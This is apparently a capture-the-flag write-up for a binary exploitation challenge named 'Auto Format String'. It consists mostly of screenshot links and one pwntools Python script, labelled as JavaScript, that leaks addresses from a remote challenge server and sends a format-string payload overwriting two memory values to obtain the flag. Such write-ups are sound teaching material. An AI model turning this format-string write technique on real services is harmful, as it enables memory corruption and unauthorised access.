 # **Auto Format String - PWN CTF Challenge**

### ***Exploitation***
---

![checkfile](images/checkfile.png)

![sourcecode](images/sourcecode.png)

![test](images/test.png)

![findoffset](images/findoffset.png)

![address](images/address.png)

[link](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload)



```js
from pwn import *

#p = process('./autofmt')
p = remote('45.122.249.68', 10015)

context.clear(arch = 'amd64')

p.recvline()

a_val = int(p.recvline()[4:-1])
b_val = int(p.recvline()[4:-1])
a_add = int(p.recvline()[11:-1],16)
b_add = a_add - 8

writes = {a_add: a_val, b_add: b_val}

payload = fmtstr.fmtstr_payload(10, writes, write_size='short')

p.sendline(payload)
p.interactive()
```

![flag](images/flag.png)

> **FLAG: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}**





